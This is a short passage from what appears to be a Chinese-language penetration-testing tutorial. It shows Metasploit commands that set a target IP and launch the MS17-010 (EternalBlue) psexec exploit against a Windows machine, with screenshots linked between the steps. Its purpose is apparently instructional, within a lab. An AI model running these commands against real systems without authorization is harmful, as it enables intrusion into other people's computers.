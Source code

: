 [![](assets/1701606737-ce6117e7f3146bb43e0ed1978731735d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106234014-c7388378-7cba-1.png)

设置远程目标 IP

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > set rhosts 192.168.1.9
```

查看攻击目标模式

[![](assets/1701606737-c819575d3f167f9e6eda8076b5dab791.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106234136-f81df7a2-7cba-1.png)

攻击

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > run
or
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
```
